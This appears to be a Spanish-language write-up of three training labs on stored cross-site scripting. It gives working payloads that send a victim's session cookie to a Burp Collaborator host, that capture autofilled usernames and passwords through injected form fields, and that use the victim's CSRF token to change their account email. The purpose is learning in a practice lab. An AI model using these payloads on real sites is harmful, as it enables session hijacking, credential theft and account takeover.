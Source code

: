 # Laboratories cross-site scripting

```mermaid
flowchart 
 classDef green color:#022e1f,fill:#00f500;
   classDef red color:#022e1f,fill:#f11111;
   classDef white color:#022e1f,fill:#fff;
   classDef black color:#fff,fill:#000;
A[Buscamos donde podemos ingresar el exploit]-->B[Añadir exploit alert]
B-->|Si explotable|C[Mandamos exploit a nuestro collaborator con lo que necesitemos]
B-->|NO|D[No es explotable a priori]:::red
E-->F[Cambiar la cookie que recibimos]:::green
C-->|Si Funcionan las cookies|G[steal cookies]
G-->E[Mirar resultado del collaborator]
C-->|2. Probamos robar las claves si tienen autocompletador|H[capture password]
H-->I[Mirar collaborator e identificarse]:::green
H-->|Si no funciona probar varias veces reiniciar collaborator|H

C-->|Tiene csrf|J[Exploiting XSS to perform CSRF]
J-->|Si|K[Tenemos mail o user]
J-->|NO|L[no podemos asignarnos el csrf de la victima]:::red
K-->M[Escribimos un comentario con un script que haga lo siguiente\n 1.cargar la página o las paginas hasta llegar donde se cambia\n2.extraemos el csrf\n3.Mandamos una petición post con el csrf y nuestro email o nombre]:::green
```

## Lab: Exploiting cross-site scripting to steal cookies

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Analizando la web podemos ver:
- disponemos de nuestra cookie
- Tenemos un formulario de logueo sin la opción de forget password
- comentarios


La idea es que nos manden a burpcollaborator la cookie quien lea el post. Se sobre entiende que tendrán una acción para ver los comentarios. Una vez robada la cookie tendremos que susituir nuestra cookie.

1. Probamos si es inyectable un javascript
Insertamos en un comentario esto, para ver si nos carga a nosotros ese javascript
```js
<script>
alert();
</script>
```
![](assets/2022-07-12-19-11-11.png)

Es posible inyectar un script, no lo tienen controlado.

2. abrimos burpcollaborator y copiamos la url
   
La idea es que nos manden a nuestra burpcollaborator . Buscando en google encontramos esto

```js
// Ejemplo implementando el metodo POST:
async function postData(url = '', data = {}) {
  // Opciones por defecto estan marcadas con un *
  const response = await fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
    credentials: 'same-origin', // include, *same-origin, omit
    headers: {
      'Content-Type': 'application/json'
      // 'Content-Type': 'application/x-www-form-urlencoded',
    },
    redirect: 'follow', // manual, *follow, error
    referrerPolicy: 'no-referrer', // no-referrer, *no-referrer-when-downgrade, origin, origin-when-cross-origin, same-origin, strict-origin, strict-origin-when-cross-origin, unsafe-url
    body: JSON.stringify(data) // body data type must match "Content-Type" header
  });
  return response.json(); // parses JSON response into native JavaScript objects
}

postData('https://example.com/answer', { answer: 42 })
  .then(data => {
    console.log(data); // JSON data parsed by `data.json()` call
  });
```
Parece que al menos hay que enviar el post y el modo para decir que es otro sitio.
Lo reducimos a este tipo y probamos, si no funciona vamos añadiendo cosas.
```js
fetch(url, {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    body: document.cookie
    });
```



```js
<script>
fetch(http://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net, {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

>Yo creo que está bien pero no me devuelve nada. Voy a ver los errores, me temo que las pruebas iniciales lo han estropeado y lo tendré que intentar en otro post, pero es posible que o falte el https o puede también que falte algun argumento como credentials.
![](assets/2022-07-12-19-27-23.png)

Probando con https

![](assets/2022-07-12-19-29-57.png)

Ok el problema era las '' en la url, quedaría así

```js
<script>
fetch('https://ywyrjloefo180531g2xi7pzk2b83ws.burpcollaborator.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

```

Ahora en burpcollaborator vamos a la pestaña request to collaborator en la petición que nos dió.

![](assets/2022-07-12-19-34-17.png)

Vamos a la petición de login y enviamos a repeater, ahí hay una sesion y la cambiamos por la que hemos obtenido . Luego enviamos y resuelto.

![](assets/2022-07-12-19-35-31.png)

## Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

La idea es obtener la clave del usuario y la contraseña porque tiene un auto rellenador de contraseñas

Probamos si se puede insertar un javascript
```js
<script>
alert();
</script>
```

Al ver que se puede mandamos a burpcolaborator lo siguiente. Básicamente crea un input username y otro password, en el momento en que el tamaño de la contraseña tenga un tamaño lo envia. Tiene que tener un autocmpletador de claves.. 

>Es importante comprender que no lleva la etiqueta script porque sino no sale visualmente a la victima y queremos que si se vea.

```js
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://r1tymfpnmfosqa4n007uka30vr1ip7.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
> Importante si no funciona cerrar burpcollaborator y volver a poner la url nueva

![](assets/2022-07-12-20-18-23.png)

![](assets/2022-07-12-20-18-49.png)


## Lab: Exploiting XSS to perform CSRF
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

La idea aquí es que obtener el csrf. Para ello lo buscamos con burpsuite. Lo encontramos en change/mail

Tenemos que poner un comentario en el que lo primero que haga sea en trar en /my-account, luego cambiar el mail por el nuestro para que nos haga que nuestro mail sea el correspondiente al de la victima para poder tener sus credenciales.

Hemos actualizado nuestro correo a lala@lala.net
1. Creamos un request get a my-account
2. Una vez hecho esto buscamos donde ponga csrf

![](assets/2022-07-12-20-54-55.png)

3. Una vez buscado  cogemos todo la primera cadena que venga detras de value=
4. Creamos una petión post a change mail con el token de la victima y nuestro mail.

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=lala@lala.net')
};
</script>
```